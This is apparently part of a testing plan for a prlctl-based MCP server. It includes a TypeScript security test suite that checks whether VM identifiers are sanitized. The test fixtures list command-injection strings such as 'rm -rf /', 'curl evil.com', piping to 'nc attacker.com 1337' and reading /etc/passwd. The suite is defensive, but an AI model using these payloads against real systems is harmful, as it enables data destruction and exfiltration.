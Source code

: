 2. **Command Execution**
   - `executePrlctl` function
   - Error handling and stderr capture
   - Process timeout handling

3. **Parser Functions**
   - `parseVmList` - all edge cases
   - `parseSnapshotList` - malformed input handling

4. **MCP Protocol Handlers**
   - Tool registration
   - Request validation
   - Response formatting

### Security-Focused Test Cases

```typescript
describe('Security Tests', () => {
  describe('Command Injection Prevention', () => {
    const maliciousInputs = [
      'vm; rm -rf /',
      'vm`echo pwned`',
      'vm$(curl evil.com)',
      'vm && cat /etc/passwd',
      'vm | nc attacker.com 1337',
      '../../../etc/passwd',
      'vm\nrm -rf /',
      'vm${IFS}cat${IFS}/etc/passwd'
    ];

    test.each(maliciousInputs)(
      'should sanitize malicious input: %s',
      async (input) => {
        const sanitized = sanitizeVmIdentifier(input);
        expect(sanitized).not.toContain(';');
        expect(sanitized).not.toContain('`');
        expect(sanitized).not.toContain('$');
        expect(sanitized).not.toContain('|');
        expect(sanitized).not.toContain('&');
        expect(sanitized).not.toContain('\n');
      }
    );
  });

  describe('Input Validation', () => {
    test('should reject oversized inputs', async () => {
      const largeInput = 'a'.repeat(10000);
      await expect(createVmSchema.parseAsync({ name: largeInput }))
        .rejects.toThrow();
    });

    test('should validate numeric boundaries', async () => {
      await expect(createVmSchema.parseAsync({ 
        name: 'test',
        memory: 100000 // exceeds max
      })).rejects.toThrow();
    });
  });
});
```
